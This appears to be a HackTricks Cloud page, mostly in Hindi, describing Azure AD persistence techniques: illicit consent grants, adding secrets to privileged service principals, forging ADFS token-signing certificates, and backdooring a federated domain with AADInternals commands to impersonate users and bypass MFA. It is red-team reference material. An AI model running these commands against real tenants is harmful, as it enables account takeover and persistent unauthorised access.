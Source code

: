 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित टेनेट के लिए) जिसे उच्च प्रभाव वाले अनुमतियों की आवश्यकता होती है जिसमें व्यवस्थापक की सहमति (यदि आप व्यवस्थापक हैं तो इसे स्वीकृत करें) - जैसे कि किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमलों को निष्पादित करने** की अनुमति देगा जो सफलता की स्थिति में बहुत **लाभकारी** होंगे।

इसके अलावा, आप उस एप्लिकेशन को अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### Applications and Service Principals

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के विशेषाधिकारों के साथ, हम एक मौजूदा एप्लिकेशन में क्रेडेंशियल्स (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

यह **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों के साथ एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका **विशेषाधिकार प्राप्त प्रमाणीकरण प्रशासक भूमिका** होगी क्योंकि यह वैश्विक प्रशासकों का **पासवर्ड रीसेट** करने की अनुमति देती है।

यह तकनीक **MFA को बायपास** करने की भी अनुमति देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA विशेषाधिकार** के साथ ऑन-प्रेम AD पर, **नए Token signing** और **Token Decrypt certificates** बनाना और आयात करना संभव है जिनकी वैधता बहुत लंबी होती है। यह हमें **किसी भी उपयोगकर्ता के रूप में लॉग-इन** करने की अनुमति देगा जिसका ImuutableID हमें पता है।

**ADFS सर्वर(s)** पर **DA के रूप में** नए सर्टिफिकेट बनाने के लिए नीचे दिए गए कमांड को चलाएँ (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, ऑटो रोलओवर को अक्षम करें और सेवा को पुनः प्रारंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA विशेषाधिकारों के साथ एक टेनेट पर, **एक नया डोमेन जोड़ना** संभव है (इसकी पुष्टि होनी चाहिए), इसके प्रमाणीकरण प्रकार को फेडरेटेड पर कॉन्फ़िगर करना और डोमेन को **एक विशिष्ट प्रमाणपत्र** (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर **विश्वास** करने के लिए कॉन्फ़िगर करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

